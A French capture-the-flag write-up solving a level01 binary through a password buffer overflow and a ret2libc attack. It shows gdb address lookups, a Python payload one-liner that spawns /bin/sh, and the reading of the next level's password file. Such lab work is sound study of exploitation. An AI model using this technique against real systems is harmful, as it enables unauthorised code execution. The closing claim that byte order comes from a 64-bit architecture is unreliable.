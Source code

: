 Ayant trouve un nom d'utilisateur "dat_wil" et un mot de passe "admin", on tente de les rentrer.
Le mot de passe ne semble pas fonctionner. La fonction ne disposant pas d'un appel system, nous allons devoir faire appel à une attaque ret2libc.

On trouve si on peut faire crasher le programme avec une trop grosse chaine de caractere pour le nom d'utilisateur et le mot de passe.
En effectuant de nombreux tests manuels, on se rend compte que le mot de passe entraine un segfault si jamais on tape 80+ caracteres.
On a donc l'offset pour envoyer un payload.

Pour que ce payload soit utile, on va devoir acceder à certaines informations.
On demarre donc le programme avec "r" dans gdb.

On fait crash le programme lors de la saisie dumot de passe.

Suite au crash, on tape la commande
```info proc map```

On a alors le tableau suivante:
```process 1888
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fdb000     0x3000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

Pour chaque ligne, on tape la commande du debut a la fin de l'addresse, pour retrouver la string "/bin/sh": (0xf7f897ec)
```(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```


On cherche l'adresse de la fonction system avec la commande: (0xf7e6aed0)
```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```

On cherche l'adresse de la fonction exit avec la commande: (0xf7e5eb70)
```
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit
```

Le payload sera constitué de la manière suivante: offset ('*' * 80) + "system" + "exit" + "/bin/sh"
```python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload```

```cat /tmp/payload - | ./level01```

```cat /home/users/level02/.pass```


Explications supplementaires:

Il est à noté que l'appel à exit est optionnel, en effet, ligne suivante fonctionne egalement:

```python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x00\x00\x00\x00"+"\xec\x97\xf8\xf7"' > /tmp/payload```

Exit permet juste de quitter le programme proprement. Il est par contre imperatif de disposer d'une adresse en l'appel à system et à son argument /bin/sh.
En effet, l'assembleur a besoin de disposer d'une adresse de sortie après l'appel d'une fonction, avant de recevoir les arguments.

Ne pas indiquer d'une adresse entre system et /bin/sh fera qu'il n'y aura pas d'arguments et que /bin/sh sera la fonction de sortie, ce qui posera problème.

Enfin, vis à vis de l'ordre inversé des chiffres des adresses, cela est dû à l'architecture 64 bits de notre environnement, qui nous fait passer au format de lecture little endian.

Source: https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc